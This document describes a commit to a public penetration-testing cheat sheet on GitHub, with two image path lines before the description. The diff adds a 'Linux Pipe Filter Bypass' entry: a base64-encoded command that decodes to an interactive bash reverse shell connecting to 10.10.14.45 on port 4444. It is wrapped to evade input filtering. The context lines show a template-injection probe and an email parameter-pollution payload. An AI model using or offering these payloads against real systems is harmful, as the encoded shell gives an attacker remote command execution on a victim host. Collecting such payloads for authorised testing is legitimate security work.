

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Adding example bash pipe filter bypass

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1844,3 +1844,8 @@ test+(${{7*7}})@example.com
 # parameter pollution
 victim&email=attacker@example.com
 ```
+
+### Linux Pipe Filter Bypass
+```
+bash < <(base64 -d < <(echo YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
+```
````
